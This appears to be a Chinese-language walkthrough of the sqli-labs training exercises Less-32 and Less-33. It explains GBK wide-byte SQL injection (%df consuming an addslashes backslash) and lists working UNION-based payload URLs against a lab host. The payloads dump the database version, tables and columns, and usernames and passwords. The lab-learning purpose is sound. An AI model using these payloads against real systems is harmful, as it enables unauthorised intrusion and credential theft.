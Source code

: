 和 Less-29 相比没有啥本质变化，只是拼接方式换成了id=1&id=0" ）

# Less-32

**宽字节注入原理**

MySQL 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如 `%aa%5c` 就是一个 汉字。因为过滤方法主要就是在敏感字符前面添加 反斜杠 `\`，所以这里想办法干掉反斜杠即可。

1. `%df` 吃掉 `\`

具体的原因是 `urlencode(\') = %5c%27`，我们在`%5c%27` 前面添加`%df`，形 成`%df%5c%27`，MySQL 在 GBK 编码方式的时候会将两个字节当做一个汉字，这个时候就把`%df%5c` 当做是一个汉字，`%27` 则作为一个单独的符号在外面，同时也就达到了我们的目的。

2.将 `\'` 中的 `\` 过滤掉

例如可以构造 `%5c%5c%27` 的情况，后面的`%5c`会被前面的`%5c` 给注释掉。这也是 bypass 的一种方法。

本关卡采用第一种 %df 宽字节注入来吃掉反斜杠

暴位置

```
http://daishen.ltd:1112/Less-32/?id=-1%df' union select 1,2,3 --+
```

暴库和版本

```
http://daishen.ltd:1112/Less-32/?id=-1%df' union select 1,version(),database() --+
```

暴表

```
http://daishen.ltd:1112/Less-32/?id=-1%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

暴字段

**使用十六进制编码就可以绕过了''使用0x 代替，users 使用十六进制编码得到7573657273，构造为0x7573657273**

```
http://daishen.ltd:1112/Less-32/?id=-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+
```

暴值

```
http://daishen.ltd:1112/Less-32/?id=-1%df' union select 1,2,group_concat(username,0x3a,password) from users --+
```

# Less-33

拼接方式也是一样的，过滤方法细节有点变化，具体如下：

```php
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}
```
